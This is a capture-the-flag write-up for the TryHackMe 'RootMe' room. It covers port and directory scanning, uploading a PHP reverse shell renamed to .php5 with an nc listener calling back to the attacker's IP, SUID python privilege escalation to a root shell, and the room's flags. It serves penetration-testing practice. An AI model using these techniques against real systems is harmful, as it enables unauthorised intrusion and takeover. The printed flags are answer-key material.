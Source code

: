 <!-- TOC -->

- [RootMe](#rootme)
    - [Reconnaissance](#reconnaissance)
    - [Getting a shell](#getting-a-shell)
    - [Privilege escalation](#privilege-escalation)

<!-- /TOC -->

# RootMe

[RootMe Room](https://tryhackme.com/room/rrootme)

A ctf for beginners, can you root me?

| Title | IP Address |
| :---- | :---- |
| RootMe | 10.10.196.130 |

## Reconnaissance

```bash
sudo nmap -A -vv -T4 -oA initial 10.10.196.130 
```

> `22/tcp open ssh syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`

> `80/tcp open http syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))`

Result: [initial.nmap](initial.nmap)

> `80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))`

```bash
gobuster dir -u 10.10.196.130:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,css,htm,html,js,php,py -t 100
```

> ```
> /uploads              (Status: 301) [Size: 316] [--> http://10.10.196.130/uploads/]
> /index.php            (Status: 200) [Size: 616]                                    
> /css                  (Status: 301) [Size: 312] [--> http://10.10.196.130/css/]    
> /js                   (Status: 301) [Size: 311] [--> http://10.10.196.130/js/]     
> /panel                (Status: 301) [Size: 314] [--> http://10.10.196.130/panel/]  
> /server-status        (Status: 403) [Size: 278]
> ```

## Getting a shell

Using the famous __pentestmonkey's PHP reverse shell__

Copy and modify `/usr/share/webshells/php/php-reverse-shell.php`

```php
// php-reverse-shell.php5
$ip = '10.6.31.75';  // CHANGE THIS
$port = 80;       // CHANGE THIS
```

```bash
mv php-reverse-shell.php php-reverse-shell.php5
```

Upload to: `http://10.10.196.130/panel/`

```bash
nc -lvnp 80
```

Go to: `http://10.10.196.130/uploads/php-reverse-shell.php5`

```bash
find / -type f -name user.txt 2>/dev/null
```

> `/var/www/user.txt`

```bash
cat /var/www/user.txt
```

> `THM{y0u_g0t_a_sh3ll}`

## Privilege escalation

```bash
find / -perm -4000 2>/dev/null
```

> `/usr/bin/python`

Using [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid):

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
find / -type f -name root.txt
```

> `/root/root.txt`

```bash
cat /root/root.txt
```

> `THM{pr1v1l3g3_3sc4l4t10n}`
